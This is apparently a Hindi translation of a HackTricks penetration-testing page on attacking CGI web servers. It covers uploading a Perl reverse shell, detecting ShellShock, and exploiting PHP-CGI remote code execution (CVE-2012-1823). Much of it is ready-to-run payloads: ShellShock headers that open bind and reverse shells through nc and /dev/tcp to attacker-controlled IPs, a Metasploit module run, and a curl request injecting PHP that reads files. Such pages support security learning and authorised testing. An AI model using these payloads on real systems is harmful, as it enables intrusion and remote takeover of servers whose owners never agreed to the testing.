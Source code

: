 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}


# Information

**CGI स्क्रिप्ट्स पर्ल स्क्रिप्ट्स हैं**, इसलिए, यदि आपने एक सर्वर को समझौता किया है जो _**.cgi**_ स्क्रिप्ट्स को निष्पादित कर सकता है, तो आप **एक पर्ल रिवर्स शेल** \(`/usr/share/webshells/perl/perl-reverse-shell.pl`\) **अपलोड कर सकते हैं**, **एक्सटेंशन** को **.pl** से **.cgi** में बदल सकते हैं, **निष्पादन अनुमतियाँ** दें \(`chmod +x`\) और **वेब ब्राउज़र** से रिवर्स शेल **एक्सेस** करें ताकि इसे निष्पादित किया जा सके।  
**CGI कमजोरियों** के लिए परीक्षण करने के लिए `nikto -C all` \(और सभी प्लगइन्स\) का उपयोग करने की सिफारिश की जाती है।

# **ShellShock**

**ShellShock** एक **कमजोरी** है जो व्यापक रूप से उपयोग किए जाने वाले **Bash** कमांड-लाइन शेल को प्रभावित करती है जो यूनिक्स-आधारित ऑपरेटिंग सिस्टम में है। यह Bash की क्षमता को लक्षित करती है कि वह अनुप्रयोगों द्वारा भेजे गए आदेशों को चलाए। यह कमजोरी **पर्यावरण चर** के हेरफेर में निहित है, जो गतिशील नामित मान हैं जो यह प्रभावित करते हैं कि कंप्यूटर पर प्रक्रियाएँ कैसे चलती हैं। हमलावर इसको **पर्यावरण चर** में **दुष्ट कोड** संलग्न करके शोषण कर सकते हैं, जो चर प्राप्त करने पर निष्पादित होता है। इससे हमलावरों को संभावित रूप से सिस्टम को समझौता करने की अनुमति मिलती है।

इस कमजोरी का शोषण करते समय **पृष्ठ एक त्रुटि फेंक सकता है**।

आप इस कमजोरी को यह देखकर **पता लगा सकते हैं** कि यह एक **पुरानी Apache संस्करण** और **cgi\_mod** \(cgi फ़ोल्डर के साथ\) का उपयोग कर रहा है या **nikto** का उपयोग करके।

## **Test**

अधिकांश परीक्षण कुछ को इको करने पर आधारित होते हैं और उम्मीद करते हैं कि वह स्ट्रिंग वेब प्रतिक्रिया में लौटाई जाए। यदि आप सोचते हैं कि एक पृष्ठ कमजोर हो सकता है, तो सभी cgi पृष्ठों की खोज करें और उनका परीक्षण करें।

**Nmap**
```bash
nmap 10.2.1.31 -p 80 --script=http-shellshock --script-args uri=/cgi-bin/admin.cgi
```
## **Curl \(प्रतिबिंबित, अंधा और आउट-ऑफ-बैंड\)**
```bash
# Reflected
curl -H 'User-Agent: () { :; }; echo "VULNERABLE TO SHELLSHOCK"' http://10.1.2.32/cgi-bin/admin.cgi 2>/dev/null| grep 'VULNERABLE'
# Blind with sleep (you could also make a ping or web request to yourself and monitor that oth tcpdump)
curl -H 'User-Agent: () { :; }; /bin/bash -c "sleep 5"' http://10.11.2.12/cgi-bin/admin.cgi
# Out-Of-Band Use Cookie as alternative to User-Agent
curl -H 'Cookie: () { :;}; /bin/bash -i >& /dev/tcp/10.10.10.10/4242 0>&1' http://10.10.10.10/cgi-bin/user.sh
```
[**Shellsocker**](https://github.com/liamim/shellshocker)
```bash
python shellshocker.py http://10.11.1.71/cgi-bin/admin.cgi
```
## शोषण
```bash
#Bind Shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc -l -p 9999 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 8
#Reverse shell
$ echo -e "HEAD /cgi-bin/status HTTP/1.1\r\nUser-Agent: () { :;}; /usr/bin/nc 192.168.159.1 443 -e /bin/sh\r\nHost: vulnerable\r\nConnection: close\r\n\r\n" | nc vulnerable 80
#Reverse shell using curl
curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/10.11.0.41/80 0>&1' http://10.1.2.11/cgi-bin/admin.cgi
#Reverse shell using metasploit
> use multi/http/apache_mod_cgi_bash_env_exec
> set targeturi /cgi-bin/admin.cgi
> set rhosts 10.1.2.11
> run
```
# **Proxy \(MitM to Web server requests\)**

CGI प्रत्येक हेडर के लिए एक पर्यावरण चर बनाता है जो http अनुरोध में होता है। उदाहरण के लिए: "host:web.com" को "HTTP\_HOST"="web.com" के रूप में बनाया जाता है।

चूंकि HTTP\_PROXY चर का उपयोग वेब सर्वर द्वारा किया जा सकता है। एक **हेडर** भेजने का प्रयास करें जिसमें: "**Proxy: &lt;IP\_attacker&gt;:&lt;PORT&gt;**" हो और यदि सर्वर सत्र के दौरान कोई अनुरोध करता है। आप सर्वर द्वारा किए गए प्रत्येक अनुरोध को कैप्चर करने में सक्षम होंगे।

# Old PHP + CGI = RCE \(CVE-2012-1823, CVE-2012-2311\)

बुनियादी रूप से यदि cgi सक्रिय है और php "पुराना" \(&lt;5.3.12 / &lt; 5.4.2\) है तो आप कोड निष्पादित कर सकते हैं।
इस भेद्यता का लाभ उठाने के लिए आपको वेब सर्वर की कुछ PHP फ़ाइल तक पहुंच प्राप्त करनी होगी बिना पैरामीटर भेजे \(विशेष रूप से "=" वर्ण भेजे बिना\)।
फिर, इस भेद्यता का परीक्षण करने के लिए, आप उदाहरण के लिए `/index.php?-s` तक पहुंच सकते हैं \(ध्यान दें `-s`\) और **अनुप्रयोग का स्रोत कोड प्रतिक्रिया में दिखाई देगा**।

फिर, **RCE** प्राप्त करने के लिए आप यह विशेष क्वेरी भेज सकते हैं: `/?-d allow_url_include=1 -d auto_prepend_file=php://input` और **PHP कोड** जो **अनुरोध के शरीर में** निष्पादित किया जाना है।
उदाहरण:**
```bash
curl -i --data-binary "<?php system(\"cat /flag.txt \") ?>" "http://jh2i.com:50008/?-d+allow_url_include%3d1+-d+auto_prepend_file%3dphp://input"
```
**कमजोरी और संभावित हमलों के बारे में अधिक जानकारी:** [**https://www.zero-day.cz/database/337/**](https://www.zero-day.cz/database/337/)**,** [**cve-2012-1823**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-1823)**,** [**cve-2012-2311**](https://cve.mitre.org/cgi-bin/cvename.cgi?name=cve-2012-2311)**,** [**CTF लेखन उदाहरण**](https://github.com/W3rni0/HacktivityCon_CTF_2020#gi-joe)**.**

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **हमारे** 💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**टेलीग्राम समूह**](https://t.me/peass) में शामिल हों या **हमें** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)** पर फॉलो करें।**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
